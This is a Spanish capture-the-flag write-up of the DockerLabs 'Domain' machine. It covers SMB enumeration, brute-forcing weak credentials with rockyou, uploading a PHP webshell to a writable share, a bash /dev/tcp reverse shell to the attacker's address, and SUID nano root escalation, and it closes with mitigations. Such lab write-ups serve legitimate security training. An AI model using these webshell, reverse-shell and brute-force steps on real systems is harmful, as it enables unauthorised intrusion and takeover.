










# Domain

> **Plataforma:** DockerLabs  
> **Dificultad:** Media  
> **Sistema operativo:** Linux  
> **IP objetivo:** 172.17.0.2

## Resumen

Máquina Linux comprometida mediante enumeración SMB, credenciales débiles y abuso de un binario SUID para obtener privilegios de root.

---
## Cadena de ataque

```text
Enumeración SMB 
      |
      ↓
Credenciales débiles (bob:star)
      |
      ↓
Acceso al recurso SMB html
      |
      ↓
Webshell PHP → Reverse Shell como www-data
      |
      ↓
Abuso de binario SUID (nano)
      |
      ↓
	 Root
```

___

## Reconocimiento

Primero realizamos un reconocimiento inicial para identificar los puertos abiertos y los servicios expuestos por la máquina.

```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.17.0.2 -oG allPorts
```

El objetivo responde con un TTL de 64, un valor que suele estar asociado a sistemas Linux, aunque no permite confirmar por sí solo el sistema operativo.

El escaneo completo revela tres puertos abiertos: `80`, `139` y `445`. Esto indica la presencia de dos superficies de ataque principales: un servidor web mediante HTTP y un servicio SMB implementado con Samba.



Tras identificar los puertos abiertos, realizamos un escaneo dirigido para detectar versiones y ejecutar los scripts básicos de enumeración de Nmap:

```bash
nmap -p80,139,445 -sCV -Pn 172.17.0.2 -oN targeted
```



Los resultados muestran que el puerto `80/tcp` expone un servidor Apache 2.4.52 sobre Ubuntu, por lo que será necesario revisar el contenido web, las tecnologías utilizadas y posibles rutas o recursos ocultos.

Los puertos `139/tcp` y `445/tcp` exponen Samba, lo que indica que el sistema ofrece servicios SMB. La siguiente fase deberá comprobar la existencia de recursos compartidos, acceso anónimo, usuarios enumerables y posibles archivos expuestos.

| Puerto  | Servicio    | Versión                | Observaciones                  |
| ------- | ----------- | ---------------------- | ------------------------------ |
| 80/tcp  | HTTP        | Apache 2.4.52 (Ubuntu) | Servidor web accesible         |
| 139/tcp | NetBIOS-SSN | Samba smbd 4           | SMB sobre NetBIOS              |
| 445/tcp | SMB         | Samba smbd 4           | Servicio SMB directo sobre TCP |
En conclusión, la máquina presenta dos líneas principales de enumeración: la aplicación web y los recursos compartidos mediante SMB. A partir de este punto analizaremos ambos servicios para determinar si permiten acceso sin autenticación o exponen información útil.

___
## Enumeración

Primero realicé una enumeración del puerto 80 en el que corre el servicio `HTTP` con Apache, para ello primero entré en la web en la que aparentemente no encontramos nada mas que una exlicación del protocolo smb:



Ante esta situación me encontré con 2 hipotesis, primero que puede haber directorios ocultos que podríamos encontrar con gobuster, segundo que la web al hacer referencia a samba me esté dando una pista de por donde van realmente los tiros. Para descartar mi primer hipotésis realicé un fuzzeo de directorios en busca de archivos relevantes:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -t 40 -x php,html,txt,bak
```

Una vez terminado la enumeración de directorios observé que no lanzo ningun resultado interesante, asi que realicé una enumeración mas exhaustiva del servidor web con enum4liux en busqueda de usuarios ya que como vemos la web esta muy relacionada con algo de samba:

```bash
enum4linux -a 172.17.0.2
```

como resultado encontramos 2 posibles usuarios bob y james:



**Hallazgo importante:**

| Usuario | Origen          | Estado |
| ------- | --------------- | ------ |
| `james` | Enumeración SMB | Válido |
| `bob`   | Enumeración SMB | Válido |
Posteriormente realicé una enumeración del protocolo samba:

```bash
smbclient -L //172.17.0.2 -N
smbmap -H 172.17.0.2
```



El resultado confirma que el servidor permite enumerar los nombres de los recursos compartidos sin proporcionar credenciales.

A continuación intenté acceder al recurso `html` de forma anónima:

```bash
smbclient //172.17.0.2/html -N
```

Sin embargo, el servidor respondió:

```bash
NT_STATUS_ACCESS_DENIED
```

La herramienta confirmó la existencia de una null session, pero mostró `NO ACCESS` para todos los recursos enumerados.

Como habíamos encontrado 2 usuarios anteriormente , mi próximo paso fue realiza ataque de fuerza bruta con dichos usuarios al recurso de html

___
## Explotación

Tras la enumeración realizada previamente se identificaron dos usuarios válidos del servicio SMB:

- bob
- james

Además, la política de contraseñas obtenida mediante enum4linux mostraba una configuración débil, con una longitud mínima reducida y sin requisitos de complejidad.

Debido a esto, se decidió comprobar la existencia de credenciales débiles mediante un ataque de fuerza bruta contra SMB utilizando `nxc`:

```bash
nxc smb 172.17.0.2 -u bob -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding | grep -v STATUS_LOGON_FAILURE
````

Tras finalizar el proceso se obtuvo una credencial válida:



**Credenciales obtenidas:**

```text
Usuario: bob
Contraseña: star
```

Una vez obtenidas las credenciales, se procedió a enumerar nuevamente los recursos SMB disponibles utilizando el usuario comprometido.

Tras autenticarnos contra el recurso compartido `html`, se comprobó que este permitía escritura. Este recurso correspondía con el directorio utilizado por el servidor web Apache, permitiendo modificar el contenido servido por la aplicación.

Se aprovechó esta configuración insegura para subir un archivo PHP que permitía ejecutar comandos del sistema mediante un parámetro GET:

```php
<?php
  system($_GET['cmd']);
?>
```



Una vez alojado el archivo malicioso en el servidor web, se utilizó para ejecutar una reverse shell contra la máquina atacante.

Se utilizó una reverse shell basada en Bash aprovechando que el sistema disponía de Bash y permitía conexiones TCP salientes:

```url
http://172.17.0.2/cmd.php?cmd=bash -c 'bash -i >%26 /dev/tcp/172.17.0.1/443 0>%261'
```

En la máquina atacante se quedó escuchando mediante Netcat:

```bash
nc -nlvp 443
```

Tras recibir la conexión se obtuvo una shell remota sobre el sistema víctima.



Finalmente se realizó el tratamiento de la TTY para mejorar la interacción con la consola:

```bash
script /dev/null -c bash
Ctrl + Z
stty raw -echo; fg
reset
export TERM=xterm
export SHELL=bash
stty rows 39 columns 184
```

___
## Escalada de privilegios

Una vez obtenido acceso al sistema como el usuario `bob`, se procedió a realizar una fase de enumeración local con el objetivo de identificar posibles vectores de escalada de privilegios.
### Enumeración de privilegios

En primer lugar, se comprobaron los permisos sudo del usuario actual:
```bash
sudo -l
```

El resultado indicó que el usuario comprometido no disponía de permisos para ejecutar comandos mediante sudo.

Posteriormente se revisaron los directorios existentes en el sistema:
```bash
ls -la /home
```

Con esto se pudieron identificar los directorios personales de los usuarios existentes en la máquina.

A continuación, se realizó una búsqueda de archivos con permisos SUID:
```bash
find / -perm -4000 2>/dev/null
```

Los archivos con el bit SUID habilitado pueden representar un riesgo de seguridad, ya que permiten ejecutar un binario con los privilegios del propietario del archivo, aunque sea ejecutado por otro usuario.

Durante la enumeración se identificó el siguiente binario:



El binario `nano` contaba con permisos SUID y pertenecía al usuario `root`, por lo que podía ser ejecutado con privilegios elevados.
### Explotación del binario SUID

Para comprobar si este binario podía ser utilizado como vector de escalada se consultó la referencia de **GTFOBins**, donde se encuentra documentada una técnica para abusar de este comportamiento.

Se utilizó el siguiente comando:
```bash
nano -s '/bin/sh -p'
```

Una vez dentro de Nano se ejecutó:
```text
/bin/bash -p
CTRL + T
CTRL + T
```

Esto me permitió ejecutar una shell con privilegios del usuario propietario del binario:



Por lo tanto, la escalada de privilegios fue completada correctamente.

**Vector:** Abuso de un binario `nano` con permisos SUID asignados incorrectamente.

**Resultado:** Obtención de una shell con privilegios de `root`.

---

## Aprendizajes

- Enumeración de servicios SMB mediante herramientas como Nmap, enum4linux y NetExec.
- Identificación de usuarios válidos mediante sesiones nulas (`Null Session`).
- Detección de políticas de contraseñas débiles.
- Explotación de credenciales débiles mediante ataques de fuerza bruta controlados.
- Abuso de recursos compartidos SMB con permisos incorrectos.
- Identificación y explotación de binarios con permisos SUID.
- Importancia de realizar una enumeración completa antes de descartar servicios aparentemente poco relevantes.

---

## Mitigaciones

- Deshabilitar las sesiones nulas y el acceso anónimo en Samba.
- Aplicar políticas de contraseñas robustas con requisitos adecuados de longitud y complejidad.
- Evitar la exposición de información de usuarios locales mediante servicios de red.
- Revisar periódicamente los archivos con permisos SUID dentro del sistema.
- Eliminar permisos SUID innecesarios en binarios que no requieran privilegios elevados.
- Restringir los permisos de escritura sobre directorios utilizados por servidores web.
- Separar correctamente los recursos compartidos SMB de los directorios utilizados por aplicaciones web.